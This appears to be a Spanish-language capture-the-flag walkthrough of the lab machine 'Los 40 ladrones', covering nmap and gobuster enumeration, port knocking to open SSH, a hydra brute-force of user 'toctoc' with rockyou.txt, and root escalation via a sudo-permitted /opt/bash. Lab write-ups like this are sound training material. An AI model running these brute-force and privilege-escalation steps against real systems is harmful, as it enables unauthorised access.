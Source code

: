 # Los 40 ladrones
![image](https://github.com/user-attachments/assets/a47f0df8-8745-432f-83bc-3604923d79c9)


## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
sudo nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.
```
```
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```
Como tenemos abierto el puerto 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
sudo nmap -sCV -p80 -vvv -oN versionPorts 172.17.0.2
```
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p80`: Escaneo de los puertos.
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.
```
```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
```
En la página principal vemos la página por defecto de Apache, por lo que vamos a hacer fuzzing con **gobuster**.

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
![image](https://github.com/user-attachments/assets/cc49357e-34fe-4d07-a009-1113f95e770c)

![image](https://github.com/user-attachments/assets/527503ea-c5e6-49fe-99f5-d639bb52c61d)

Nos encontramos con este mensaje en el archivo txt que encontramos con **gobuster** llamado *qdefense.txt*.
A parte que nos informa de un posible usuario **toctoc**, por la información del fichero podría tratarse de una secuencia de puertos que tendríamos que utilizar para obtener información. Deberemos utilizar la técnica de **Port Knocking**.

*Port Knocking es una técnica de seguridad utilizada para controlar el acceso a servicios en un servidor, como una forma de autenticación antes de permitir la conexión a puertos específicos. La idea principal es que los puertos en un servidor están "cerrados" y no responden a conexiones normales hasta que se haya completado una secuencia particular de intentos de conexión en puertos específicos, conocida como "knock sequence" o secuencia de golpeo.*

**¿Cómo funciona?**

*Secuencia de Golpeo:* El usuario debe intentar conectarse a una serie de puertos en un orden específico. Por ejemplo, primero al puerto 7000, luego al 8000, y finalmente al 9000. Estos intentos pueden hacerse con paquetes de TCP, UDP o ICMP.

*Registro de Golpes:* El servidor está monitoreando los intentos de conexión a estos puertos. No responde a los intentos, pero los registra.

*Verificación de la Secuencia:* Si el servidor detecta que se ha seguido la secuencia correcta de golpes en los puertos, puede activar un script o una regla de firewall que abra el puerto que el usuario quiere acceder (por ejemplo, el puerto 22 para SSH).

*Acceso Permitido:* Una vez que se permite el acceso, el usuario puede conectarse normalmente al puerto deseado.

Primero de todo instalaremos **knock**.
```
sudo apt update && sudo apt install -y knockd
```
Una vez instalado ejecutamos el siguiente comando.

```
knock -v 172.17.0.2 7000 8000 9000
```
![image](https://github.com/user-attachments/assets/14fc05a6-7afb-4e81-9f4a-7d38e09b7136)

Volvemos a hacer un escaneo de puertos y obtendremos acceso al puerto 22.
```
❯ sudo nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 172.17.0.2
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-30 11:27 CEST
Initiating ARP Ping Scan at 11:27
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 11:27, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:27
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 11:28, 26.52s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000076s latency).
Scanned at 2024-07-30 11:27:39 CEST for 26s
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```
## Explotación.

Ahora utilizamos **hydra** con el usuario **toctoc** obtenido en el archivo txt, para con fuerza bruta descubrir la contraseña.

```
hydra -l toctoc -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
![image](https://github.com/user-attachments/assets/8b84f5e5-9528-4c1b-9643-c304376d5eff)

Como hemos obtenido una contraseña, nos conectamos por ssh.
```bash
ssh toctoc@172.17.0.2
```
![image](https://github.com/user-attachments/assets/c2b615e2-42ad-4528-8b18-6987483ff1a6)

## Escalada de privilegios.

Comprobamos si hay algún binario que podamos explotar y nos encontramos con dos opciones.

![image](https://github.com/user-attachments/assets/08908efd-3ecd-49bb-80d7-58499eda20b7)

```bash
sudo -u root /opt/bash -p
```
Ya tenemos acceso como **root**.

![image](https://github.com/user-attachments/assets/d99869ef-ec35-4b98-8c21-bfdb13c2f684)












